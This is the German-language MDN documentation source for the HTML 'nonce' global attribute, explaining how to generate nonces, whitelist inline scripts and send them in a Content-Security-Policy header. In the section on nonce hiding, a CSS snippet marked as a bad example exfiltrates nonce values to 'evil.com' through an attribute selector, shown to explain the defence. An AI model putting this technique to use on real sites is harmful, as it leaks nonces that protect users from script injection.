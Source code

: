 ```yaml
---
title: nonce
slug: Web/HTML/Reference/Global_attributes/nonce
l10n:
  sourceCommit: e6d43da6c6d28a6ac92cdd47882809ffbdf987ce
---
```


{{HTMLSidebar("Global_attributes")}}

Das **`nonce`** [globale Attribut](/de/docs/Web/HTML/Reference/Global_attributes) ist ein Inhaltsattribut, das eine kryptografische "once" (einmalig) verwendete Zahl definiert. Diese kann von der [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP) verwendet werden, um festzustellen, ob ein gegebener Abruf für ein bestimmtes Element erlaubt wird oder nicht.

## Beschreibung

Das `nonce`-Attribut ist nützlich, um bestimmte Elemente wie ein bestimmtes Inline-Skript oder Style-Elemente auf die Allowlist zu setzen. Es kann Ihnen helfen, die `unsafe-inline`-Direktive der [CSP](/de/docs/Web/HTTP/Guides/CSP) zu vermeiden, die _alle_ Inline-Skripte oder Stile zulassen würde.

> [!NOTE]
> Verwenden Sie `nonce` nur in Fällen, in denen Sie keine Möglichkeit haben, unsichere Inline-Skript- oder Styleinhalte zu umgehen. Wenn Sie `nonce` nicht benötigen, verwenden Sie es nicht. Wenn Ihr Skript statisch ist, könnten Sie stattdessen auch einen CSP-Hash verwenden. (Siehe Verwendungshinweise zu [unsicheren Inline-Skripten](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src#unsafe_inline_script).) Versuchen Sie immer, den vollen Vorteil der [CSP](/de/docs/Web/HTTP/Guides/CSP)-Schutzmechanismen zu nutzen und vermeiden Sie Nonces oder unsichere Inline-Skripte wann immer möglich.

### Verwendung von nonce zur Aufnahme eines `<script>`-Elements in die Allowlist

Es gibt einige Schritte, um ein Inline-Skript mit dem Nonce-Mechanismus auf die Allowlist zu setzen:

#### Generierung von Werten

Erzeugen Sie von Ihrem Webserver aus einen zufälligen, base64-kodierten String mit mindestens 128 Bit Daten aus einem kryptografisch sicheren Zufallszahlengenerator. Nonces sollten jedes Mal, wenn die Seite geladen wird, unterschiedlich generiert werden (Nonce nur einmal!). Zum Beispiel in nodejs:

```js
import crypto from "node:crypto";

crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Aufnahme von Inline-Skript in die Allowlist

Die auf Ihrem Backend-Code generierte Nonce sollte nun für das Inline-Skript verwendet werden, das Sie auf die Allowlist setzen möchten:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Senden einer Nonce mit einem CSP-Header

Schließlich müssen Sie den Nonce-Wert in einem
[`Content-Security-Policy`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy)-Header senden
(dem Wert `nonce-` voranstellen):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Zugriff auf Nonces und Nonce-Verbergung

Aus Sicherheitsgründen ist das `nonce`-Inhaltsattribut verborgen (es wird eine leere Zeichenkette zurückgegeben).

```js example-bad
script.getAttribute("nonce"); // returns empty string
```

Die [`nonce`](/de/docs/Web/API/HTMLElement/nonce)-Eigenschaft ist die einzige Möglichkeit, auf Nonces zuzugreifen:

```js example-good
script.nonce; // returns nonce value
```

Nonce-Verbergung hilft, Angreifer daran zu hindern, Nonce-Daten über Mechanismen zu exfiltrieren, die Daten
aus Inhaltsattributen wie diesem erfassen können:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP)
- CSP: [`script-src`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src)
